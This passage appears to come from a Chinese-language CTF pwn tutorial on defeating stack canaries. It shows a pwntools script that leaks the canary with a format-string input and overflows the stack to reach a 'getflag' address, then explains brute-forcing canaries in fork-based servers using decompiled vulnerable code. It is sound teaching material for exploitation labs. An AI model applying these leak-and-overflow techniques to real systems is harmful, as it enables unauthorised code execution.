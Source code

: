 通过第一次输入执行格式化字符串漏洞，泄露出 canary ，第二次输入执行栈溢出从而getflag
```python
#!coding:utf-8
from pwn import *
#context.log_level='debug'

p=process("./bin")
getflag=0x0804863B

payload='%7$x'
p.sendline(payload)

canary=int(p.recv(),16)
print ("canary: ",hex(canary))

payload='a'*(0x70-0xc)+p32(canary)+'a'*(0xc-0x4)+'a'*0x4+p32(getflag)
#pading1 + canary + pading2 +old_ebp + ret_addr
p.sendline(payload)

p.interactive()
```

### 爆破Canary
对于Canary，不仅每次进程重启后的Canary不同(相比GS，GS重启后是相同的)，而且同一个进程中的每个线程的Canary也不同。 但是存在一类通过fork函数开启子进程交互的题目，因为fork函数会直接拷贝父进程的内存，因此每次创建的子进程的Canary是相同的。我们可以利用这样的特点，彻底逐个字节将Canary爆破出来。

**[题目地址 bin1](bin1)**，因为 canary 最低位是\x00 。所以对于32位来说，只需要爆破3位，而64位则需要爆破7位。每位的数值范围是（0x0-0xFF）

用IDA分析，程序开启了 canary，而且还有fork函数，可以爆破 canary
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  __pid_t v3; // [esp+Ch] [ebp-Ch]

  init();
  while ( 1 )
  {
    v3 = fork();  //创建的子进程的Canary是相同的
    if ( v3 < 0 )
      break;
    if ( v3 )
    {
      wait(0);
    }
    else
    {
      puts("welcome");
      fun();
      puts("recv sucess");
    }
  }
  puts("fork error");
  exit(0);
}
```
fun函数同样存在栈溢出，而且还有后门函数。
```c
unsigned int fun()
{
  char buf; // [esp+8h] [ebp-70h]
  unsigned int v2; // [esp+6Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  read(0, &buf, 0x78u);  //栈溢出
  return __readgsdword(0x14u) ^ v2;
```